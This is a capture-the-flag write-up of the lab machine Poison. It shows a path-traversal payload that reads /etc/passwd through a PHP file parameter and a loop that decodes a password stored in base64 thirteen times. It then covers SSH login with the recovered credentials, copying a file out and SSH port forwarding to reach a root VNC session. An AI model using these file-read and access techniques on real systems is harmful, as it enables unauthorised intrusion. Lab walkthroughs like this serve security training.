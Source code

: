 Accessing to the webapp we try the scripts listed in the main page and we found the following:

```bash

http://10.10.10.84/browse.php?file=listfiles.php

Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt )

----------

http://10.10.10.84/browse.php?file=info.php

FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017 root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC amd64

----------

http://10.10.10.84/browse.php?file=pwdbackup.txt

This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo=

----------

http://10.10.10.84/browse.php?file=phpinfo.php

# PHP Version 5.6.32
|System|FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017 root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC amd64|
|Build Date|Jan 2 2018 17:01:44|

```

We can try to retrieve files from the system by escaping the current folder

```bash

http://10.10.10.84/browse.php?file=/../../../../../etc/passwd

 $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $ # 
 root:*:0:0:Charlie &:/root:/bin/csh 
 toor:*:0:0:Bourne-again Superuser:/root: 
 daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin 
 operator:*:2:5:System &:/:/usr/sbin/nologin 
 bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin 
 tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin 
 kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin 
 games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin 
 news:*:8:8:News Subsystem:/:/usr/sbin/nologin 
 man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin 
 sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin 
 smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin 
 mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin 
 bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin 
 unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin 
 proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin 
 _pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin 
 _dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin 
 uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico 
 pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin 
 auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin 
 www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin 
 _ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin 
 hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin 
 nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin 
 _tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin 
 messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin 
 avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin 
 cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin 
 charix:*:1001:1001:charix:/home/charix:/bin/csh 
 ```

Only root and charix have terminal access. Lets decode the found base64 password

In the file it says that the password have been encoded 13 times, if we decode the base64 text will give us another base64 text. If we repeat the process we will have the password. We can do this manually but we will use bash scripting. We have pasted the base64 text in a file called pwd.b64, removed all the break lines and then we decode the text 13 times with a for loop

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Poison-10.10.10.84]
└─$ data=$(cat pwd.b64); for i in $(seq 1 13); do data=$(echo $data | base64 --decode); done; echo $data
Charix!2#4%6&8(0

┌──(kali㉿kali)-[~]
└─$ ssh charix@10.10.10.84
```

And we are in with `charix:Charix!2#4%6&8(0` credentials

In the charix folder we find a zip file called secret.zip, we try to move the file to our machine with a python upload server but Curl doesn't work. We try to encode to base64 too but it didn't work either. Finally we move the file with scp over SSH

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Poison-10.10.10.84]
└─$ scp -P 22 charix@10.10.10.84:/home/charix/secret.zip .
(charix@10.10.10.84) Password for charix@Poison:
secret.zip                                                                        100%  166     0.9KB/s   00:00    

┌──(kali㉿kali)-[~/Documents/Boxes/Poison-10.10.10.84]
└─$ ls
secret.zip
```

Once the file is in our machine we unzip with the user password and check what is it

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Poison-10.10.10.84]
└─$ unzip secret.zip      
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret                  

┌──(kali㉿kali)-[~/Documents/Boxes/Poison-10.10.10.84]
└─$ ls
nmap  pwd.b64  secret  secret.zip

┌──(kali㉿kali)-[~/Documents/Boxes/Poison-10.10.10.84]
└─$ cat secret                             
��[|Ֆz!                                                                                                                    
┌──(kali㉿kali)-[~/Documents/Boxes/Poison-10.10.10.84]
└─$ file secret                    
secret: Non-ISO extended-ASCII text, with no line terminators
```

We don't know what is it, so lets check the server again

```bash
charix@Poison:~ % netstat -an -p tcp
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0     44 10.10.10.84.22         10.10.14.21.39358      ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

Finding info about these ports we find that could be VNC service. 

![[Pasted image 20230830180150.png]]

Lets check the process to verify it

```bash
charix@Poison:~ % ps -auwwx | grep vnc
root   529   0.0  0.9  23620  8864 v0- I    16:29    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
```

And we found tightvnc service running in 5901 port, so lets use port forwarding through ssh and connect from our machine

```bash
┌──(kali㉿kali)-[~]
└─$ ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84

-----------------

┌──(kali㉿kali)-[~/Documents/Boxes/Poison-10.10.10.84]
└─$ vncviewer -passwd secret 127.0.0.1:5901 
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
```

And a remote desktop will pop up with a terminal for the root user

![[Pasted image 20230830181027.png]]